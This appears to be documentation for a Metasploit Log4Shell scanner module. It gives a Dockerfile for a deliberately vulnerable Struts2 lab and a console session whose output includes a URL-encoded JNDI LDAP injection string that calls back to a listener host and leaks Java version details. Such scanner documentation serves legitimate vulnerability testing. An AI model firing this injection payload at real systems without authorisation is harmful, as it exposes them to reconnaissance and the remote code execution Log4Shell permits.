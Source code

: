 ## Vulnerable Application
This module will scan an HTTP end point for the Log4Shell vulnerability by injecting a format message that will
trigger an LDAP connection to Metasploit. This module is a generic scanner and is only capable of identifying
instances that are vulnerable via one of the pre-determined HTTP request injection points. These points include
HTTP headers and the HTTP request path.

This module has been successfully tested with Struts2 and Spring Boot.

## Verification Steps

1. Setup a vulnerable Struts2 Instance
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/log4shell_scanner`
4. Set the `SRVHOST`, `RHOSTS`, `RPORT` and `TARGETURI` options
    * For Struts2, set `TARGETURI` to `/struts2-showcase/`
5. Do: `run`
6. The target should be identified as vulnerable

### Struts2

The following docker file can be used to setup a vulnerable Struts2 instance for testing.

```
#
# To build the image:
#   docker build . -t struts2:2.5.28
# To run the container:
#   docker run --name struts2 --rm -p 8080:8080 struts2:2.5.28
#

ARG version=2.5.28
FROM bitnami/tomcat:9.0
USER root
ENV TOMCAT_PASSWORD password

RUN apt-get update && \
	apt-get -y install unzip && \
	apt-get clean && \
	rm -rf /var/lib/apt/lists/* /tmp/* /var/tmp/*

RUN curl https://dlcdn.apache.org/struts/2.5.28/struts-2.5.28-all.zip > struts-all.zip && \
	unzip struts-all.zip && \
	cp /struts-2.5.28/apps/struts2-showcase.war /bitnami/tomcat/webapps/
```

## Scenarios

### Struts2

```
msf6 > use auxiliary/scanner/http/log4shell_scanner 
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set TARGETURI /struts2-showcase/
TARGETURI => /struts2-showcase/
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[*] Started service listener on 192.168.159.128:389 
[+] Log4Shell found via /struts2-showcase/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.159.128%3a389/r7yol50kgg7be/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/log4shell_scanner) > 

```
